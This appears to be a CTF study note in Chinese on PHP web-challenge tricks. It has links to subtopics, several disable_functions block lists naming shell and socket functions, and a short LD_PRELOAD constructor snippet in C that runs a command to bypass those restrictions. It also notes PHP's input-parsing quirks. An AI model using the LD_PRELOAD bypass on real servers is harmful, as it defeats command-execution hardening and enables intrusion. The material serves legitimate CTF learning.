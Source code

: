 - [[CTF/PHP/弱类型]]
- [[CTF/PHP/可变函数]]
- [[CTF/PHP/无引号字符串]]
- [[CTF/PHP/FFI]]
- [[CTF/PHP/Phar]]
- [[CTF/PHP/原生类]]
- [[CTF/PHP/Session]]
- [[CTF/PHP/反序列化]]
- [[CTF/PHP/特殊标签]]
- [[PHP/忽略错误]]
- [[PHP/模板字符串]]
- [[CTF/PHP/巧用exit()]]
- [[CTF/PHP/运算优先级]]
- [[CTF/PHP/用处特殊的函数]]
- ## disable_function
- ```
  disable_functions = system,exec,shell_exec,passthru,proc_open,proc_close, proc_get_status,checkdnsrr,getmxrr,getservbyname,getservbyport, syslog,popen,show_source,highlight_file,dl,socket_listen,socket_create,socket_bind,socket_accept, socket_connect, stream_socket_server, stream_socket_accept,stream_socket_client,ftp_connect, ftp_login,ftp_pasv,ftp_get,sys_getloadavg,disk_total_space, disk_free_space,posix_ctermid,posix_get_last_error,posix_getcwd, posix_getegid,posix_geteuid,posix_getgid, posix_getgrgid,posix_getgrnam,posix_getgroups,posix_getlogin,posix_getpgid,posix_getpgrp,posix_getpid, posix_getppid,posix_getpwnam,posix_getpwuid, posix_getrlimit, posix_getsid,posix_getuid,posix_isatty, posix_kill,posix_mkfifo,posix_setegid,posix_seteuid,posix_setgid, posix_setpgid,posix_setsid,posix_setuid,posix_strerror,posix_times,posix_ttyname,posix_uname
  ```
  
  
  ```
  passthru,system,putenv,chroot,chgrp,chown,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
  ```
  
  不完整版
  
  ```
  passthru,system,chroot,chgrp,chown,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,putenv
  ```
- ## LD_PRELOAD
- ```
  #include <stdlib.h>
  #include <stdio.h>
  #include <string.h>
  
  __attribute__ ((__constructor__)) void angel (void){
    unsetenv("LD_PRELOAD");
    system("/readflag > /tmp/wx.txt");
  }
  ```
- ## 传入变量名转换
  
  如果变量名中有 `.` 或者空格，那 PHP 会将其转换成下划线
- ## $ _ SERVER
- `$_SERVER['QUERY_STRING']` 不会进行 url 转义
- ## $ _ REQUEST
- `$_REQUEST` 中 post 的优先级更高
- 由 `phpinfo` 中的 `request_order` 和 `variables_order` 定义
-